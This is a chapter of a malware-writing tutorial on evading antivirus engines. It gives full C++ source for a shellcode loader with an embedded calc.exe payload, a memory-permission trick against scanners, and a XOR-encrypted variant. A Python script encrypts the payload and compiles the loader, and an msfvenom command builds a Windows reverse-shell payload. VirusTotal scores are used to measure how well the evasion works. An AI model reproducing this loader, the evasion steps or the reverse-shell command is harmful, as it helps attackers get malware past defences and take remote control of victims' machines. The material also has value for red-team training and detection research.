



## 35. AV engines evasion for C++ simple malware.

{width="80%"}    

AV evasion has always being challenging for red teamers and pentesters, especially for those who write malwares.

In our tutorial, we will write a simple malware in C++ that will launch our payload: `calc.exe` process. Then we check through virustotal how many AV engines detect our malware, after which we will try to reduce the number of AV engines that will detect our malware.

Let's start with simple C++ code of our malware:
```cpp
/*
cpp implementation malware example with calc.exe payload
*/
#include <windows.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

// our payload calc.exe
unsigned char my_payload[] = {
  0xfc, 0x48, 0x83, 0xe4, 0xf0, 0xe8, 0xc0, 0x00, 0x00, 0x00, 
  0x41, 0x51, 0x41, 0x50, 0x52, 0x51, 0x56, 0x48, 0x31, 0xd2, 
  0x65, 0x48, 0x8b, 0x52, 0x60, 0x48, 0x8b, 0x52, 0x18, 0x48, 
  0x8b, 0x52, 0x20, 0x48, 0x8b, 0x72, 0x50, 0x48, 0x0f, 0xb7, 
  0x4a, 0x4a, 0x4d, 0x31, 0xc9, 0x48, 0x31, 0xc0, 0xac, 0x3c, 
  0x61, 0x7c, 0x02, 0x2c, 0x20, 0x41, 0xc1, 0xc9, 0x0d, 0x41,
  0x01, 0xc1, 0xe2, 0xed, 0x52, 0x41, 0x51, 0x48, 0x8b, 0x52,
  0x20, 0x8b, 0x42, 0x3c, 0x48, 0x01, 0xd0, 0x8b, 0x80, 0x88, 
  0x00, 0x00, 0x00, 0x48, 0x85, 0xc0, 0x74, 0x67, 0x48, 0x01, 
  0xd0, 0x50, 0x8b, 0x48, 0x18, 0x44, 0x8b, 0x40, 0x20, 0x49, 
  0x01, 0xd0, 0xe3, 0x56, 0x48, 0xff, 0xc9, 0x41, 0x8b, 0x34, 
  0x88, 0x48, 0x01, 0xd6, 0x4d, 0x31, 0xc9, 0x48, 0x31, 0xc0,
  0xac, 0x41, 0xc1, 0xc9, 0x0d, 0x41, 0x01, 0xc1, 0x38, 0xe0, 
  0x75, 0xf1, 0x4c, 0x03, 0x4c, 0x24, 0x08, 0x45, 0x39, 0xd1, 
  0x75, 0xd8, 0x58, 0x44, 0x8b, 0x40, 0x24, 0x49, 0x01, 0xd0, 
  0x66, 0x41, 0x8b, 0x0c, 0x48, 0x44, 0x8b, 0x40, 0x1c, 0x49, 
  0x01, 0xd0, 0x41, 0x8b, 0x04, 0x88, 0x48, 0x01, 0xd0, 0x41, 
  0x58, 0x41, 0x58, 0x5e, 0x59, 0x5a, 0x41, 0x58, 0x41, 0x59,
  0x41, 0x5a, 0x48, 0x83, 0xec, 0x20, 0x41, 0x52, 0xff, 0xe0, 
  0x58, 0x41, 0x59, 0x5a, 0x48, 0x8b, 0x12, 0xe9, 0x57, 0xff, 
  0xff, 0xff, 0x5d, 0x48, 0xba, 0x01, 0x00, 0x00, 0x00, 0x00, 
  0x00, 0x00, 0x00, 0x48, 0x8d, 0x8d, 0x01, 0x01, 0x00, 0x00, 
  0x41, 0xba, 0x31, 0x8b, 0x6f, 0x87, 0xff, 0xd5, 0xbb, 0xf0, 
  0xb5, 0xa2, 0x56, 0x41, 0xba, 0xa6, 0x95, 0xbd, 0x9d, 0xff,
  0xd5, 0x48, 0x83, 0xc4, 0x28, 0x3c, 0x06, 0x7c, 0x0a, 0x80, 
  0xfb, 0xe0, 0x75, 0x05, 0xbb, 0x47, 0x13, 0x72, 0x6f, 0x6a, 
  0x00, 0x59, 0x41, 0x89, 0xda, 0xff, 0xd5, 0x63, 0x61, 0x6c, 
  0x63, 0x2e, 0x65, 0x78, 0x65, 0x00
};
unsigned int my_payload_len = sizeof(my_payload);

int main(void) {
  void * my_payload_mem; // memory buffer for payload
  BOOL rv;
  HANDLE th;
  DWORD oldprotect = 0;

  // Allocate a memory buffer for payload
  my_payload_mem = VirtualAlloc(0, my_payload_len, 
  MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);

  // copy payload to buffer
  RtlMoveMemory(my_payload_mem, my_payload, my_payload_len);

  // make new buffer as executable
  rv = VirtualProtect(my_payload_mem, my_payload_len, 
  PAGE_EXECUTE_READ, &oldprotect);
  if ( rv != 0 ) {

    // run payload
    th = CreateThread(0, 0, 
    (LPTHREAD_START_ROUTINE) my_payload_mem, 
    0, 0, 0);
    WaitForSingleObject(th, -1);
  }
  return 0;
}

```

So we have just one function `main(void)` function:

{width="80%"}    

and we have `sizeof(my_payload)` size of payload.

For simplicity, we use `calc.exe` as the payload. Without delving into the generation of the payload, we will simply substitute the finished payload into our code:    

```cpp
unsigned char my_payload[] = {
  0xfc, 0x48, 0x83, 0xe4, 0xf0, 0xe8, 0xc0, 0x00, 0x00, 0x00, 
  0x41, 0x51, 0x41, 0x50, 0x52, 0x51, 0x56, 0x48, 0x31, 0xd2, 
  0x65, 0x48, 0x8b, 0x52, 0x60, 0x48, 0x8b, 0x52, 0x18, 0x48, 
  0x8b, 0x52, 0x20, 0x48, 0x8b, 0x72, 0x50, 0x48, 0x0f, 0xb7, 
  0x4a, 0x4a, 0x4d, 0x31, 0xc9, 0x48, 0x31, 0xc0, 0xac, 0x3c, 
  0x61, 0x7c, 0x02, 0x2c, 0x20, 0x41, 0xc1, 0xc9, 0x0d, 0x41,
  0x01, 0xc1, 0xe2, 0xed, 0x52, 0x41, 0x51, 0x48, 0x8b, 0x52,
  0x20, 0x8b, 0x42, 0x3c, 0x48, 0x01, 0xd0, 0x8b, 0x80, 0x88, 
  0x00, 0x00, 0x00, 0x48, 0x85, 0xc0, 0x74, 0x67, 0x48, 0x01, 
  0xd0, 0x50, 0x8b, 0x48, 0x18, 0x44, 0x8b, 0x40, 0x20, 0x49, 
  0x01, 0xd0, 0xe3, 0x56, 0x48, 0xff, 0xc9, 0x41, 0x8b, 0x34, 
  0x88, 0x48, 0x01, 0xd6, 0x4d, 0x31, 0xc9, 0x48, 0x31, 0xc0,
  0xac, 0x41, 0xc1, 0xc9, 0x0d, 0x41, 0x01, 0xc1, 0x38, 0xe0, 
  0x75, 0xf1, 0x4c, 0x03, 0x4c, 0x24, 0x08, 0x45, 0x39, 0xd1, 
  0x75, 0xd8, 0x58, 0x44, 0x8b, 0x40, 0x24, 0x49, 0x01, 0xd0, 
  0x66, 0x41, 0x8b, 0x0c, 0x48, 0x44, 0x8b, 0x40, 0x1c, 0x49, 
  0x01, 0xd0, 0x41, 0x8b, 0x04, 0x88, 0x48, 0x01, 0xd0, 0x41, 
  0x58, 0x41, 0x58, 0x5e, 0x59, 0x5a, 0x41, 0x58, 0x41, 0x59,
  0x41, 0x5a, 0x48, 0x83, 0xec, 0x20, 0x41, 0x52, 0xff, 0xe0, 
  0x58, 0x41, 0x59, 0x5a, 0x48, 0x8b, 0x12, 0xe9, 0x57, 0xff, 
  0xff, 0xff, 0x5d, 0x48, 0xba, 0x01, 0x00, 0x00, 0x00, 0x00, 
  0x00, 0x00, 0x00, 0x48, 0x8d, 0x8d, 0x01, 0x01, 0x00, 0x00, 
  0x41, 0xba, 0x31, 0x8b, 0x6f, 0x87, 0xff, 0xd5, 0xbb, 0xf0, 
  0xb5, 0xa2, 0x56, 0x41, 0xba, 0xa6, 0x95, 0xbd, 0x9d, 0xff,
  0xd5, 0x48, 0x83, 0xc4, 0x28, 0x3c, 0x06, 0x7c, 0x0a, 0x80, 
  0xfb, 0xe0, 0x75, 0x05, 0xbb, 0x47, 0x13, 0x72, 0x6f, 0x6a, 
  0x00, 0x59, 0x41, 0x89, 0xda, 0xff, 0xd5, 0x63, 0x61, 0x6c, 
  0x63, 0x2e, 0x65, 0x78, 0x65, 0x00
};
```

And the main logic of our `main` function is:    

{width="80%"}    

Let's go to investigate this logic. If you want to run our payload in the memory of the process, we have to do couple of things. We have to create a new memory buffer, copy our payload into the buffer, and a start executing this buffer.

The first we do we allocate new memory region in a process and we store the address in `my_payload_mem` variable:    

{width="80%"}    

and this memory region is readable and writeable.

Then, we copy our `my_payload` to `my_payload_mem`:    

{width="80%"}    

And then we set our buffer to be executable:    

{width="80%"}    

Ok, everything is good but why I am not doing this in `44` line???    

{width="80%"}    

why not just allocate a buffer which is readable writable and executable?

And the reason is pretty simple. Some hunting tools and AV engines can spot this memory region, because it's quite unusable that the process needs a memory which is readable, writeable and executable at the same time. So to bypass this kind of detection we are doing in a two steps.

And if everything goes well, we run our payload as the separate new thread in a process:    

{width="80%"}    

Let's go to compile our malware:    

{width="80%"}    

and run (on Windows 10 x64):    

{width="80%"}

So basically this is how you can store your payload in a `.text` section without encryption.

Let's go to upload our `evil.exe` to Virustotal:    

{width="80%"}    

[https://www.virustotal.com/gui/file/c9c49dbbb0a668df053d0ab788f9dde2d9e59c31672b5d296bb1e8309d7e0dfe/detection](https://www.virustotal.com/gui/file/c9c49dbbb0a668df053d0ab788f9dde2d9e59c31672b5d296bb1e8309d7e0dfe/detection)

**So, 22 of of 66 AV engines detect our file as malicious.**

Let's go to try to reduce the number of AV engines that will detect our malware.

For this first we must encrypt our payload. Why we want to encrypt our payload?
The basic purpose of doing this to hide you payload from someone like AV engine or reverse engineer. So that reverse engineer cannot easily identify your payload.

The purpose of encryption is the transform data in order to keep it secret from others.
For simplicity, we use XOR encryption for our case.

Let's take a look at how to use XOR to encrypt and decrypt our payload.

Update our simple malware code:    

```cpp
/*
cpp implementation malware 
example with calc.exe payload 
encrypted via XOR
*/
#include <windows.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

// our payload calc.exe
unsigned char my_payload[] = {};
unsigned int my_payload_len = sizeof(my_payload);

// key for XOR decrypt
char my_secret_key[] = "mysupersecretkey";

// decrypt deXOR function
void XOR(char * data, size_t data_len, char * key, 
size_t key_len) {
  int j;
  j = 0;
  for (int i = 0; i < data_len; i++) {
    if (j == key_len - 1) j = 0;
      data[i] = data[i] ^ key[j];
      j++;
  }
}


int main(void) {
  void * my_payload_mem; // memory buffer for payload
  BOOL rv;
  HANDLE th;
  DWORD oldprotect = 0;

  // Allocate a memory buffer for payload
  my_payload_mem = VirtualAlloc(0, my_payload_len, 
  MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);

  // Decrypt (DeXOR) the payload
  XOR((char *) my_payload, my_payload_len, 
  my_secret_key, sizeof(my_secret_key));

  // copy payload to buffer
  RtlMoveMemory(my_payload_mem, my_payload, 
  my_payload_len);

  // make new buffer as executable
  rv = VirtualProtect(my_payload_mem, 
  my_payload_len, 
  PAGE_EXECUTE_READ, &oldprotect);
  if ( rv != 0 ) {

    // run payload
    th = CreateThread(0, 0, 
    (LPTHREAD_START_ROUTINE) my_payload_mem, 
    0, 0, 0);
    WaitForSingleObject(th, -1);
  }
  return 0;
}
```

The main difference with our first simple implementation is - we add XOR decrypt function and our secret key `my_secret_key` for decryption:    

{width="80%"}    

It's actually simple function, it's a symmetric encryption, we can use it for encryption and decryption with the same key.

and we deXOR our payload before copy to buffer:    

{width="80%"}    

And the only missing thing is our payload:    

{width="80%"}    

which should be encrypted with XOR.

For that create simple python script which encrypt payload and replace it in our C++ template:    

```python
import sys
import os
import hashlib
import string

## XOR function to encrypt data
def xor(data, key):
    key = str(key)
    l = len(key)
    output_str = ""

    for i in range(len(data)):
        current = data[i]
        current_key = key[i % len(key)]
        ordd = lambda x: x if isinstance(x, int) else ord(x)
        output_str += chr(ordd(current) ^ ord(current_key))
    return output_str

## encrypting
def xor_encrypt(data, key):
    ciphertext = xor(data, key)
    ciphertext = '{ 0x' + ', 0x'.
    join(hex(ord(x))[2:] for x in ciphertext) + ' };'
    print (ciphertext)
    return ciphertext, key

## key for encrypt/decrypt
my_secret_key = "mysupersecretkey"

## payload calc.exe
plaintext = open("./calc.bin", "rb").read()

ciphertext, p_key = xor_encrypt(plaintext, my_secret_key)

## open and replace our payload in C++ code
tmp = open("evil_xor.cpp", "rt")
data = tmp.read()
data = data.replace('unsigned char my_payload[] = { };', 
'unsigned char my_payload[] = ' + ciphertext)
tmp.close()
tmp = open("evil-enc.cpp", "w+")
tmp.write(data)
tmp.close()

## compile
try:
    cmd = "x86_64-w64-mingw32-gcc evil-enc.cpp"
    cmd += "-o evil.exe -s -ffunction-sections"
    cmd += "-fdata-sections -Wno-write-strings"
    cmd += " -fno-exceptions -fmerge-all-constants"
    cmd += "-static-libstdc++ -static-libgcc"
    cmd += " >/dev/null 2>&1"
    os.system(cmd)
except:
    print ("error compiling malware template :(")
    sys.exit()
else:
    print (cmd)
    print ("successfully compiled :)")

```

For simplicity, we use `calc.bin` payload:    

{width="80%"}

but in real scenario you can use something like:
```bash
msfvenom -p windows/x64/shell_reverse_tcp \
LHOST=10.9.1.6 LPORT=4444 -f raw -o hack.bin
```

run python script:
```bash
python3 evil_enc.py
```

{width="80%"}    

and run in victim's machine (`Windows 10 x64`):   

{width="80%"}    

Let's go to upload our new `evil.exe` with encrypted payload to Virustotal:    

{width="80%"}    

[https://www.virustotal.com/gui/file/c7393080957780bb88f7ab1fa2d19bdd1d99e9808efbfaf7989e1e15fd9587ca/detection](https://www.virustotal.com/gui/file/c7393080957780bb88f7ab1fa2d19bdd1d99e9808efbfaf7989e1e15fd9587ca/detection)

**So, we have reduced the number of AV engines which detect our malware from 22 to 18!**

[Source code in Github](https://github.com/cocomelonc/2021-04-09-av-evasion-1-)    

- [VirtualAlloc](https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualalloc)    
- [RtlMoveMemory](https://docs.microsoft.com/en-us/windows/win32/devnotes/rtlmovememory)    
- [VirtualProtect](https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualprotect)    
- [WaitForSingleObject](https://docs.microsoft.com/en-us/windows/win32/api/synchapi/nf-synchapi-waitforsingleobject)    
- [CreateThread](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createthread)    
- [XOR](https://en.wikipedia.org/wiki/XOR_cipher)    

In the next part, I will write how else you can reduce the number of detections using function call obfuscation technique.
